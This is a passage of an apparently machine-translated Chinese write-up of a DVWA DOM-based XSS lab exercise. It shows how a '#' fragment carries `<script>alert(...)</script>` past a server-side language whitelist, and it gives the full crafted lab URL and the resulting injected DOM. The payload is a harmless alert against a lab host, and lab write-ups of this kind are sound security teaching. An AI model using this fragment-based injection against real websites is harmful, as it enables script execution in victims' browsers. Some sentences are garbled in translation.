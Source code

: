 ```
            header("location: ?default=English");
            exit();
    }
} ?>
```

它只会接受一个预定义的声音，即使它似乎没有解决方案，我们仍然可以做一些事情。

在继续之前，我们需要知道浏览器是如何解释 URI 的:

> 查询组件由第一个问号(“？)字符，并以数字符号(" # ")字符或 URI 结束
> 
> [*RFC 3986*](https://www.rfc-editor.org/rfc/rfc3986) *第 3.4 节*

如果想了解更多，这是[环节](https://www.rfc-editor.org/rfc/rfc3986#section-3.4)。

所以浏览器发送给服务器一个查询字符串[什么在“？”和“#”但是它用它的 javascript 处理来自“default=" + 8”索引的子字符串(正如我们在第一步中看到的低安全级别)。](https://en.wikipedia.org/wiki/Query_string)

我们想将正确的[查询字符串](https://en.wikipedia.org/wiki/Query_string)发送到服务器，通过键入“#”终止它，然后插入我们的漏洞。

让我们看看如何做到这一点，然后讨论一下，这是我们的利用:

```
#<script>alert("You have been hacked");</script>
```

这是完整的恶意网址。

`http://10.10.173.217/vulnerabilities/xss_d/?default=English#<script>alert("You have been hacked );</script>`

但是这个精心制作的 URL 会发生什么呢？

服务器接收此 URL:

`[http://10.10.173.217/vulnerabilities/xss_d/?default=English](http://10.10.173.217/vulnerabilities/xss_d/?default=English)`

所以它不会触发过滤器，因为是正确的，服务器很高兴！

同时，浏览器会将这个字符串复制到它的 lang 变量中，然后反映到它的页面中:

`English#<script>alert("You have been hacked );</script>`

因此，如果我们检查元素，结果应该是这样的(我只报告了感兴趣的部分):

```
<option value="English#%3Cscript%3Ealert(%22You%20have%20been%20hacked%22);%3C/script%3E">English# <script>
      alert("You have been hacked");
    </script>
  </option>
  <option value="" disabled="disabled">----</option>
  <option value="English">English</option>
  <option value="French">French</option>
  <option value="Spanish">Spanish</option>
  <option value="German">German</option>
```
